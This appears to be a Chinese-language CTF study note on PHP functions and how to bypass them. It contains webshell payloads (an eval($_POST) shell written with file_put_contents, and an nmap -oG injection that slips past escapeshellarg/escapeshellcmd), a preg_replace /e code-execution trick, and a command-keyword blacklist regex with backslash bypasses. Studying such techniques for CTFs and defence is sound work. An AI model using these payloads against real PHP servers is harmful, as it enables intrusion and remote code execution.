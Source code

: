 ## php的一些函数

[TOC]



##### ·····in_array():

搜索数组中是否存在指定的值

例：in_array(search,array)

在array中搜索是否有search

##### ·····mb_subster()

:返回字符串的一部分。

![1695391508568](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1695391508568.png)

![1695391533024](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1695391533024.png)

##### mb_strpos()

：返回要查找的字符串在别的一个字符串中首次出现的位置。

### file_put_contents

例：_=file_put_contents('1.php','<?php eval(\$_POST['aa']);?>');

$前面要加一个\才可以

##### file_get_contents($text,‘r’)===“xxxx”

```
POST /?text=php://input
xxxx
```

```
?text=data://text/plain;base64,xxxx的base64加密
```

###### load_file()

ssrf中可能用。

mysql中的load_file函数，允许访问系统内任意文件并将内容以字符串形式返回，不过需要高权限，且函数参数要求文件的绝对路径，绝对路径猜测是/var/www/html/flag.php

###### escapeshellarg()

在字符串中插入‘%81’

###### preg_replace

preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );

这里面$re,$str是我们能控制的，

e模式下的preg_replace可以让第二个参数'替换字符串'当作代码执行，但是这里第二个参数是不可变的，但因为有这种特殊的情况，正则表达式模式或部分模式两边添加圆括号会将相关匹配存储到一个临时缓存区，并且从1开始排序，而strtolower("\1")正好表达的就是匹配区的第一个，从而我们如果匹配可以，则可以将函数实现。

  \S*=${getFlag()}&cmd=system('ls');注意代码里面的id和session是骗人的，在正则里面是$_GET，因此不用id传参数；

传入后正则会变为preg_replace('/('.\S*.')/ei','strtolower("\\1")',getFlag());存储临时缓存区:\S*==>getFlag();strtolower("\\1")匹配第一个，从而执行了getFlag()函数

\S是任意匹配到一个就可以。

题目：

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[BJDCTF2020]ZJCTF，不过如此)

#### escapeshellarg() 函数

[[BUUCTF 2018\]Online Tool | 信安小蚂蚁 (gitee.io)](https://mayi077.gitee.io/2020/07/30/BUUCTF-2018-Online-Tool/)

escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数

功能 ：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec()，system() 执行运算符(反引号)

```
<?php
$a = '123';
$b=escapeshellarg($a);
echo "old: ".$a."\n";
echo "now: ".$b;
?>
//old: 123  now: '123' 发现它给2边加了单引号。
<?php
$a = "12'3";
$b=escapeshellarg($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: 12'3	 now: '12'\''3' 发现单引号被注释，并已它为中介分为2边
<?php
$a = '12"3';
$b=escapeshellarg($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: 12"3	 now: '12"3'  双引号并不会被反义
<?php
$a = '12\}[*3';
$b=escapeshellarg($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: 12\}[*3	now: '12\}[*3'  似乎它只在意单引号
```

#### escapeshellcmd() 函数

 **escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行**转义**。

 反斜杠会在以下字符之前插入： #&;`|*?~<>^()[]{}$, x0A 和 xFF。 ‘ 和 “ 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 都会被空格代替。（译注：实际测试发现在 Windows 平台是前缀 ^ 来转义的。）*

```
<?php
$a = '12"3';
$b=escapeshellcmd($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: 12"3	 now: 12\"3  就是把可以字符注释掉
<?php
$a = '12"3"';
$b=escapeshellcmd($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: 12"3"  now: 12"3" 注意 ' 和 " 仅在不配对儿的时候被转义
<?php
$a ="'123'";
$b=escapeshellcmd($a);
echo "old: ".$a."\t\t";
echo "now: ".$b;
?>
//old: '123'  now: '123' 验证了上面所说的结论。
```

payload

```
' <?= @eval($_POST["mayi"]);?> -oG mayi.php '
```

```
正确的样式：
' <?php @eval($_POST["mayi"]);?> -oG mayi.php '

$host = escapeshellarg($host);
>>> ''\'' <?php @eval($_POST["mayi"]);?> -oG mayi.php' \'''

$host = escapeshellcmd($host);
>>> ''\'' \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php' \\'''

# 等价于  \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php \\

# 根据解析规则
# 等价于  \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php
# 写入后  <?php @eval($_POST["mayi"]);?> -oG mayi.php
——————————————————————————————————————————
但是如果你的payload为：
?host=' <?php @eval($_POST["mayi"]);?> -oG mayi.php'
>>> ''\'' \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php'\\'''
>>> <?php @eval($_POST["mayi"]);?> -oG mayi.php\\
# 这样是不会被认为是php文件的。
#所以说必须后面要有 ‘ 而且前面要有空格哟。
```

![1707102016279](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1707102016279.png)



##### preg_match

```
 (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd))
```

我们发现禁用了tac nl more less head tail cat od 等一些可以读取文件内容的关键字，注意看后面的|\\|\\\\|，我们都知道在php中正则过滤反斜杠要写四个\字符，因为会经过两次解析，一次php解析器的解析，另一次是正则表达式的解析。\\\\，先经过php的解析成\\，再经过正则表达式的解析成\，但是前面又多了一个\\，经过php的解析成\，|这个字符在正则中是保留字符，所以可以转义，再经过正则的解析时\会与后面的|一起解析成|，问题就出现在这一块，整个来看，先经过php的解析成|\|\\|，再经过正则的解析成||\|，所以最后匹配的是|\而不是\，所以我们可以用反斜杠绕过
payload：cmd=dir / cmd=ca\t

###### mt_rand()

py有脚本。